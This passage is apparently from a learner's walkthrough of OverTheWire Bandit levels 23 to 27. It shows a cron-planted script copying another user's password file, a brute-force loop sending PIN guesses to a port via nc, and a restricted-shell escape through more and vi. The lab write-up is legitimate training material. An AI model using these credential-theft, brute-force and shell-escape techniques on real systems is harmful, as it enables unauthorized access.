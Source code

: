 >#!/bin/bash  
cat /etc/bandit_pass/bandit24 > /tmp/tmp.ljEyl6kv1M/password

now by checking into the file we'll get bandit24 password.
### `level 24`
now exit the user and log in to bandit23 
>ssh bandit24@bandit.labs.overthewire.org -p 2220  

now enter the password to get in as bandit24. here when connected to localhost using port 30002 it asks for the password and security pin for the we tends to check all four digit numbers i.e. all 10000 possibilities and for that we use a simple shell script for brute forcing. 
```
#!/bin/bash

for i in {0000..9999}
do
echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> values.txt
done

cat values.txt | nc localhost 30002 > password.txt
```
but i split the code into two parts for two 5000 loops and checked each time at last in password file there are 9999 error messages and one passsword for that we remove errors using grep command
>grep -v Wrong password.txt


here we get the password for bandit25
### `level 25`
now exit the user and log in to bandit24 
>ssh bandit25@bandit.labs.overthewire.org -p 2220  

now enter the password to get in as bandit25.here it says the shell is not /bin/bash by default but it is some other to find it we have to see /etc/passwd file and at last field we have the shell of the specific user so we have the shell as /bin/showtext if we go through the showtext file we have an assignment of environmental variable and having shown text.txt file with more option and then exit 0 line which makes us logout every time we login to bandit26 with the key in home directory unlike cat command for more command if the file is larger than window size it is shown in pages but text.txt file being small it is shown all at once.
### `level 26`
 The onle way to get into the bandit26 user is by changing the shell to /bin/bash so we have to access the cli in bandit26 this can be done by vi editor which can be accessed through commands in <mark>more</mark> but for that the screen size shouldbe smaller so minimize it now run the command

>ssh -i bandit26.private bandit26@localhost -p 2220

now type **v** to go into vi editor where we can run commands now for getting a shell we have to write
>:shell

to change shell we use
>:set shell=/bin/bash

so now we get into bandit26 where we have setuid for user bandit27 so we get password of bandit27 with accessing the bandit27 file in /etc/bandit_pass there we get the password for bandit27
### `level 27`
now exit the user and log in to bandit26 
>ssh bandit27@bandit.labs.overthewire.org -p 2220  
